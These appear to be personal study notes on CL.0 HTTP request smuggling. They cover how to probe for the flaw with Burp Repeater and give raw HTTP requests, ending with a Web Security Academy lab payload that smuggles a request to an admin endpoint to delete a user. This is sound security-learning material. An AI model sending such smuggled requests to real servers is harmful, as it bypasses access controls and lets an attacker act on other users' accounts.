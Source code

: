 ## CL.0 vulnerabilities

Back-end servers can sometimes be persuaded to ignore the Content-Length header, which effectively means they ignore the body of incoming requests. This paves the way for request smuggling attacks that don't rely on chunked transfer encoding or [HTTP/2 downgrading](HTTP-2%20downgrading.md).

To probe for CL.0 vulnerabilities, first send a request containing another partial request in its body, then send a normal follow-up request. You can then check to see whether the response to the follow-up request was affected by the smuggled prefix.

>[!question]- How to test it with Burpsuite?
>To try this yourself using Burp Repeater:
>1.  Create one tab containing the setup request and another containing an arbitrary follow-up request.
>2.  Add the two tabs to a group in the correct order.
>3.  Using the drop-down menu next to the **Send** button, change the send mode to **Send group in sequence (single connection)**.
>4.  **Change the `Connection` header to `keep-alive`.**
>5.  Send the sequence and check the responses.

Sample request:
```http
POST /vulnerable-endpoint HTTP/1.1                       # HTTP/1.1 200 OK
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x
```

Resulting request in the server queue:
```http
POST /vulnerable-endpoint HTTP/1.1                       # HTTP/1.1 200 OK
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1                                     # 

--- SERVER RESPONSE ---

HTTP/1.1 404 Not Found (!!!)
Host: vulnerable-website.com
```

In the example above, the follow-up request for the home page has received a 404 response. This strongly suggests that the back-end server interpreted the body of the `POST` request (`GET /hopefully404...`) as the start of another request.

>[!tip]
>In the wild, we've mostly observed this behavior on endpoints that simply aren't expecting `POST` requests, so they implicitly assume that no requests have a body. Endpoints that trigger server-level redirects and requests for static files are prime candidates.

# Exploiting CL.0 & H2.0 vulnerabilities

You can exploit CL.0 vulnerabilities for the same vulnerabilities listed on [Exploiting HTTP & HTTP/2 Request Smuggling](HTTP%20Request%20Smuggling.md#Exploiting%20HTTP%20&%20HTTP/2%20Request%20Smuggling)

Non vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
```

Vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 404 Not Found
```

Accessed `/admin` page and deleted carlos user (`/admin` was leaked in the same way):
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /admin/delete?username=carlos HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK with /admin information
```

# Examples

- [From Akamai to F5 to NTLM... With Love.](../../Readwise/Articles/Malicious%20Group%20-%20From%20Akamai%20to%20F5%20to%20NTLM...%20With%20Love..md)
- https://portswigger.net/web-security/request-smuggling/browser/cl-0